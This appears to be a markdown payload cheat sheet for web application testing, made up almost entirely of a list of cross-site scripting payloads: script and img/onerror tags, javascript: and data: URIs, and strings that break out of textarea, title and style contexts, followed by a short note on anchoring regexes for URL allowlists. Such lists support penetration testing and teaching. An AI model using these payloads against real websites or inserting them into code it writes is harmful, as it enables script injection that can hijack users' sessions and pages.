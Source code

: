 # Payloads for web applications

## XSS
- Level-wise
```bash
"><u>ashok # Check the HTML encoding
<script>alert(1)</script>
<script>alert(1);//</script>
<script>confirm(1);//</script>
<img src=x onerror=alert(1)>
<img src=x onmouseover=alert(1)>
<a href=javascript:alert(1)>test123
<iframe src=javascript:alert(1)>
<object data="data:text/html,<script>alert(1)</script>"></object>
<object%20data="data:text/html,<h1>Ash0k</h1>"></object>
<script src=data:text/javascript,alert(1337)></script>
</p>test123  | </p><h1>test123 | </p><h1><u>test123
text123"%20onmouseover=alert(1);// # First confirm with test123"> printing the special characters
test123;//"><img/src=x%20onerror=alert(2)></textarea><img/src=x%20onerror=alert(2)> # Text area tag must be closed </textarea>
"></textarea><ScRiPt>alert(1)</ScRiPt>
text123</title><script>alert(1)</script> # Title tag must be closed </title>
#fff);}</style><script>alert(1)</script><style>body{background-color:#   # Style sink close
text123%27;alert(1)// # Check the special characters like single or double quotes


```


## Best Practices
> Resources for Regex [Regular Expressions](https://regex101.com/)
- Here it can allow any website, it matches `In the TEST STRING, Instead of . we can place any single character`
![Regex](/Images/regex1.png)

- Here it should match `^ sign`, `In the TEST STRING, Instead of . we can place any single character`
![Regex](/Images/regex_Secured.png)
